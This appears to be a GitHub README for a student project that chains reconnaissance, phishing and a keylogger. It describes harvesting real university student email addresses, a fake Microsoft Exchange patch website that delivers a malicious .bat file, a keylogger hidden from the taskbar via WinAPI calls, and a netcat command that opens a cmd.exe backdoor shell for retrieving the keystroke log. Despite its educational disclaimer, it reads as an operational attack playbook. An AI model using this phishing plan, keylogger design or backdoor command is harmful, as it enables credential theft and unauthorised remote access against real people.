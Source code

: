 # keylogger

Disclaimer: This project is for educational purposes only. 

The project consists of three stages, reconnaissance, phishing, and attack, respectively. During the recon stage, the attacker collects target email addresses and uses ARP scan to obtain target IPs. Next, during the phishing stage, the attacker sends phishing emails that contain the link of the phishing website (fake Microsoft website in our case) to the victims. The downloader in the phishing website will redirect to the link of malware. If the victims follow the instructions, that is, download and run the .bat file (contains malware actually), the executable will start logging the keystrokes and create a backdoor shell. So the attacker can use the backdoor to retrieve a log file that contains some sensitive data. You can check the [slide](https://docs.google.com/presentation/d/1gPKOFa4L5iZNUBC93aRHLyo68CuBljt5r5G959ol310/edit?usp=sharing) and [demo video](https://drive.google.com/file/d/1p_wR3EA5aYX3AFgCXlgbovBPu3-YU2k-/view?usp=sharing) for the further information. 

![](https://github.com/chuang76/keylogger/blob/main/figure/arch.png?raw=true)



## Requirement

- Virtualbox 5.2.18
- Kali Linux 64-bit VM
- Windows Server 2016 VM, which security protection is disabled (i.e., no firewall and antivirus software)
- Visual Studio C++ build tools 
- Netcat 



## How to use

### Recon

1. Target email addresses: According to the NCKU student ID number rule, we can collect a number of email addresses that end with @gs.ncku.edu.tw. For example, the student ID number which starts with "F7409" means the student majors in computer science and is enrolled in 2020. 

2. Target IPs: Since the attacker and victims are in the same subnet, we can use the `arp-scan` command in the Kali machine to execute the scanning, then parse the information to get target IPs. 

   ```
   $ sudo arp-scan -local 
   ```

### Phishing 

Microsoft exchange server vulnerability is one of the serious issues in 2021. Microsoft then released the patches to tackle the vulnerability. Our idea is to create a fake Microsoft patching website and cheat the victims to download the fake patch, which is malware actually.  

1. Phishing email: Warn the victims there may be a Microsoft exchange server vulnerability in his/her computer and lead the victims to access the phishing website. 

2. Phishing website: Use DriveToWeb service to host the phishing website, which is the same as the Microsoft official patching website, except for the instructions and the downloader. 

### Keylogger

The keylogger is based on Windows programming with C++. The keylogger keeps tracking keystrokes with the WinAPI `GetAsyncKeyState()` and logging the typed information as a file. Besides, the keylogger is hidden from the taskbar with the WinAPI `ShowWindow()` and the parameter `SW_HIDE`. For detailed information, please check the Windows app developer documentation. 

### Backdoor shell

Netcat is a useful networking tool. However, it is not secure. In our case, we use Netcat to create a backdoor shell. So we can retrieve the logging file which contains some sensitive information. 

1. Victim

   ```
   $ nc -l -p <port number> -t -e cmd.exe
   ```

2. Attacker

   ```
   $ nc <victim IP> <port number>
   ```

   

## Result

Here is some snapshots. 

The left is the official Microsoft patching website, while the right is the phishing website. 

![](https://github.com/chuang76/keylogger/blob/main/figure/phishing.png?raw=true)

Launch the keylogging attack successfully as follows, the left is the attacker and the right is the victim. 

![](https://github.com/chuang76/keylogger/blob/main/figure/result.png?raw=true)
